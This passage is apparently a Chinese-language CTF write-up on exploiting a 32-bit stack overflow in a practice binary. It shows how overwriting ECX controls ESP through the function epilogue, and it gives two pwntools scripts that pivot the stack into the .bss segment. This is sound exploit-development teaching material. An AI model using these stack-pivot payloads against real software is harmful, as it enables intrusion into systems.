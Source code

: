 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s2.ax1x.com/2019/09/30/uYX08H.png)

ESP=ECX(0x41414141-0x4)=0x4141413d

实际上在x64下编译的x86程序在ret前都会产生这一段代码。在我们使用栈溢出利用的时候，会导致栈帧出错。刚开始的初学者很容易一筹莫展（比如以前的我），因为无法完成一次EIP覆写。但是实际上，反复调试了几遍之后，就发现这道题并非不可利用。

其实既然ECX对ret时的ESP能产生直接影响，那么通过控制ECX也能间接控制ESP

只需要找到pop ecx 时候对应的栈顶，就能控制ECX。进而控制整个栈帧。

下面给出脚本。



## 0x01 stack povit

stack povit目的是伪造ecx控制esp的流程，而本题的lea ecx正好提供了绝妙的方案。

```
from pwn import *
p=process('./pwn01')
gdb.attach(p,'b *0x80484b1')
payload="A"*0xe
payload+=p32(0xffffd060) #控制ecx
p.sendline(payload)
p.interactive()
```

以上代码成功控制了ecx，使得栈顶没有乱跑。

但是因为栈空间的随机化，导致对esp的控制没有了意义。因为每次ret时候，栈顶的位置都不确定

所以必须要到一个地址可控的区域，第一个想到的就是bss段。

通过find，发现buf的参数也是存放在bss段中。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s2.ax1x.com/2019/09/30/uYXwPe.png)

直接伪造ecx，让栈指向到bss段中

```
from pwn import *
p=process('./pwn01')
gdb.attach(p,'b *0x80484b1')

Address=0x12345678
fake_ecx=0x804a05a

payload="A"*0xe
payload+=p32(fake_ecx)
payload+="BBBB"
payload+=p32(Address)

p.sendline(payload)
p.interactive()
```
